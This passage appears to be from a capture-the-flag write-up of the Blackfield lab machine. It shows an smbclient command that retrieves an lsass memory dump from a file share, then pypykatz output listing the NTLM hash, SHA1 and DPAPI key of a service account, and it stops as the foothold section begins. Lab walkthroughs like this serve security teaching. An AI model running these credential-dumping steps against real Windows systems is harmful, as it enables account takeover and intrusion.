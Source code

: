 ```bash
smbclient //10.10.10.192/forensic -U audit2020%'newP@ssword2025' -c 'get memory_analysis\lsass.zip' -t 120                                                                           
getting file \memory_analysis\lsass.zip of size 41936098 as memory_analysis\lsass.zip (475.1 KiloBytes/sec) (average 475.1 KiloBytes/sec)
```

After unziping the file we confirm it's indeed a dump file of lsass.

```terminal
[★]$ unzip lsass.zip                               
Archive:  lsass.zip
  inflating: lsass.DMP               
  [★]$ ls -la
total 180648
drwxr-xr-x 1 sirius sirius        36 Jul 15 19:12 .
drwxr-xr-x 1 sirius sirius        82 Jul 15 19:12 ..
-rw-r--r-- 1 sirius sirius 143044222 Feb 23  2020 lsass.DMP
-rw-r--r-- 1 sirius sirius  41936098 Jul 15 19:12 lsass.zip

```

We can use `pypykatz` to extract password hashes.

```terminal
[★]$ pypykatz lsa minidump lsass.DMP                                                        
INFO:pypykatz:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
== LogonSession ==
authentication_id 406458 (633ba)
session_id 2
username svc_backup
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413
luid 406458
        == MSV ==
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d
                SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
                DPAPI: a03cd8e9d30171f3cfe8caad92fef62100000000

```

We got the ntlm hash of user `svc_backup`.

## **Foothold**

Let's see what user `svc_backup` can do.

![backup](2.png)
